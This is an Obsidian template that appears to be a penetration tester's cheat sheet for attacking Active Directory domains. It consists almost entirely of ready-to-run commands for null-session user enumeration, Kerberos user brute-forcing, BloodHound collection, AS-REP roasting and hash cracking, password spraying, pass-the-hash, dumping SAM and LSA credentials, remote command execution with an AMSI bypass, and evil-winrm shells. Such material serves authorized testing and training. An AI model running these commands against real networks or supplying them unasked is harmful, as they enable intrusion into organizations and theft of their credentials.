 # Active Directory
Extra attacks [Active Directory Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
<%-*
if ( tp.frontmatter.dc_ip  === "x.x.x.x") {
	tp.frontmatter.dc_ip = await tp.system.prompt('Enter Domain IP address: ')
}
%>
## User Enum

### Enum4Linux
```bash
enum4linux -U <% tp.frontmatter.dc_ip %>  | grep "user:" | awk -F'[][]' '{print $2}' | tee users
```

### RPCClient 
**Null session**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomusers' | awk -F'[][]' '{print $2}' | tee users
```

**If you would like all RIDs**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomusers' | awk -F'[][]' '{print $4}' | tee RIDs
```

**Query each user for additional information**
```
cat RIDs | while read rid; do rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c "queryuser $rid"; done
```

**Get all groups**
```bash
rpcclient -U "" -N <% tp.frontmatter.dc_ip %> -c 'enumdomgroups'
```

## Kerbrute
**Change wordlist if you  have put together a custom one**
```bash
kerbrute userenum -d <% tp.frontmatter.domain %> --dc <% tp.frontmatter.dc_ip %> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

## Bloodhound
### Start server
#### Start Neo4j server
```bash
sudo neo4j console
```

#### Start bloodhound
```bash
bloodhound
```

### Gathering data
#### Sharphound
Download [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
```powershell
Import-Module .\SharpShound.ps1
```

##### Collection data
```powershell
Invoke-BloodHound -CollectionMethod ALL -Domain <%tp.frontmatter.domain %> -ZipFileName file.zip
```

#### Python bloodhound
```bash
sudo bloodhound-python -u '<user>' -p '<password>' -ns <% tp.frontmatter.dc_ip %> -d <% tp.frontmatter.domain %> -c all --zip
```

## Attacking users

### GetNPUsers

```bash
GetNPUsers.py '<% tp.frontmatter.domain %>/' -usersfile users -format hashcat -outputfile hashes -dc-ip <% tp.frontmatter.dc_ip %>
```

#### Hashcat
```bash
hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
```

### CrackMapExec
#### Generic basic command
```bash
crackmapexec <protocol> <ip/cidr> -u <user> -d <domain> -p <pass>
```

#### Check creds against SMB
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password>
```

#### List shares
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --shares
```

#### Testing winrm
```bash
sudo crackmapexec winrm <% tp.frontmatter.target_ip %> -u <user> -p <password> --shares
```

#### Testing multiple users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user_txt> -p <password>
```

#### Using Hash
```bash
crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -H <NT Hash> --local-auth
```

#### Using Hash dump SAM
```bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
```

#### Using Hash sump LSA
```bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
```

#### Discovering more users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --users
```

#### Logged on users
```bash
sudo crackmapexec smb <% tp.frontmatter.target_ip %> -u <user> -p <password> --loggedon-users
```

#### Execute command
```bash
crackmapexec <% tp.frontmatter.target_ip %> -u <user> -p <password> -x <cmd>
```

#### AMSI bypass
```bash
crackmapexec <% tp.frontmatter.target_ip %> -u <user> -p <password> -x <cmd> --amsi-bypass <path_payload>
```

### Evil winrm
#### Passing hash
```bash
evil-winrm -i <% tp.frontmatter.target_ip %> -u <user> -H <NTLM>
```

#### Using creds
```bash
evil-winrm -i <% tp.frontmatter.target_ip %> -u <user> -p <pass>
```

#### Commands with evil-winrm shell
```powershell
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```
